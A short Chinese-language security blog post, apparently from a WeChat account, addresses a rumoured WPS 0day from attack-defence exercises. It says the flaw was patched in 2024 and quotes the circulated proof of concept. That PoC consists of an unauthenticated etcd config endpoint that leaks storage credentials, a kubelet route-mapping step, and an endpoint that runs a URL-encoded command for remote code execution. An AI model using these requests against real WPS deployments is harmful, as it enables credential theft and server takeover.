 #  【相关分享】关于网传HVV中的WPS漏洞  
原创 隼目安全  隼目安全   2025-07-17 07:16  
  
## 免责声明  
> ❝  
> 由于传播、利用本公众号"隼目安全"所提供的信息而造成的任何直接或者间接的后果及损失,均由使用者本人负责,公众号"隼目安全"及作者不为此承担任何责任,一旦造成后果请自行承担!如有侵权烦请告知,我们会立即删除并致歉谢谢！  
  
  
关于网传WPS0day漏洞，系2024年已经被修复  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/9HKdHo8BvC1F8pdK1HHvSHVAyKfHgst3seOGuJfc8K7R9vXFkQNeSw3icYnN9PYfRmibQRtOiaqyeIibtziaFMUCXGA/640?wx_fmt=jpeg&from=appmsg "")  
  
下为网传poc  
  
1、未授权访问  
```
/open/v6/api/etcd/operate?key=/config/storage&method=get

```  
  
2、获取AKSK后使用脚本添加kubelet 路由映射，但需要获取TOKEN  
  
3、向对应POD发起通信后实现RCE  
```
/open/wps/run/{namespace}/{podname}/node-exporter?cmd={url_encode_command} 

```  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/9HKdHo8BvC1F8pdK1HHvSHVAyKfHgst3d9gyibkXYcIz2rI5ibotnQ5NPLLfT1Lt5u4s2AHWncSCLoicNaHzrSMFg/640?wx_fmt=gif "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9HKdHo8BvC1F8pdK1HHvSHVAyKfHgst3ovp6EUfgSFFduJdCnDcr3V7NNWEJxlricCyeJp9mIxdKVNibVSEjRGnQ/640?wx_fmt=png "")  
  
  
  
